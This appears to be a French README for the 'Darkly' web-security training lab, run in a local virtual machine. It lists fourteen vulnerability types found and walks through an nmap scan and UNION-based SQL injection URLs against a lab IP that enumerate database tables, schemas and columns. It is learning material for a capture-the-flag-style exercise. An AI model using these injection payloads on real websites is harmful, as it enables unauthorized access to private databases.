 # Darkly

1. [Setup](#setup)
2. [Pistes](#pistes)
3. [Infos](#infos)
4. [Ressources](#ressources)

## Liste des failles

| Numéro |          Faille          | Bonus |
| :----- | :----------------------: | ----: |
| 1      |    Brute force signin    |    OK |
| 2      |          Cookie          |    OK |
| 3      |        Get_param         |    OK |
| 4      |       Hidden Input       |    OK |
| 5      |      Hidden Folder       |    OK |
| 6      |     Images Injection     |    OK |
| 7      |    Modif Value Survey    |    OK |
| 8      |    Referer User Agent    |    OK |
| 9      |     Users Injection      |    OK |
| 10     |         Whatever         |    OK |
| 11     |           XSS            |    OK |
| 12     | Unrestricted File Upload |    OK |
| 13     |      Path Traversal      |    OK |
| 14     |        XSS Encoding      |    OK |

<a name="setup"></a>

## Setup

Créer une nouvelle machine virtuelle avec l'ISO fourni.
Dans la configuration de la machine, aller dans "réseau" et dans "mode d'accès réseau" sélectionner l'option "Accès par pont".
Lancer la machine, celle-ci nous donne alors une adresse IP sur la laquelle nous pouvons voir un site web apparaitre.

Happy hacking ! 🎉

## Pistes

### Piste 1

En lancant `nmap [adresse_ip]` on trouve 2 ports d'ouverts :

```
80/tcp   open  http
4242/tcp open  vrml-multi-use
```

Le port 80 est celui du site internet, et le 4242 est surement à exploiter. Voir Wikipedia : https://en.wikipedia.org/wiki/VRML

## Piste 2 (injections SQL)

- Récuperer les table_name de la BDD :

`http://192.168.1.12/?page=member&id=1 union all select 1,table_name from information_schema.tables&Submit=Submit`

Les noms de tables suivants sont particulierement interessants :

- `db_default`
- `users`
- `guestbook`
- `list_images`
- `vote_dbs`

Recuperer le table_schema de la BDD :

`http://192.168.1.12/?page=member&id=1 union all select 1,table_schema from information_schema.tables&Submit=Submit`

Les schemas suivants sont interessants :

- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

- Récuperer toutes les colonnes :

`http://192.168.1.12/?page=member&id=1 union all select 1,column_name from information_schema.columns&Submit=Submit`

On récupere les noms de colonne suivants :

- `id`
- `username`
- `password`

  users :

- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

  guestbook :

- `id_comment`
- `comment`
- `name`

  list_images :

- `id`
- `url`
- `title`
- `comment`

  vote_dbs :

- `id_vote`
- `vote`
- `nb_vote`
- `subject`

<a name="infos"></a>

## Infos

Sur cette page `http://192.168.1.11//js/init.js` on peut voir que l'outil utilisé pour faire le site web est `templated.co`

<a name="ressources"></a>

## Ressources

https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf

> User Agent
> https://fr.wikipedia.org/wiki/User_agent

> Wget Folders and Subfolders
> https://superuser.com/questions/655554/download-all-folders-subfolders-and-files-using-wget

### D'autres Failles

> La CRLF
> https://openclassrooms.com/fr/courses/2091901-protegez-vous-efficacement-contre-les-failles-web/2863578-la-crlf
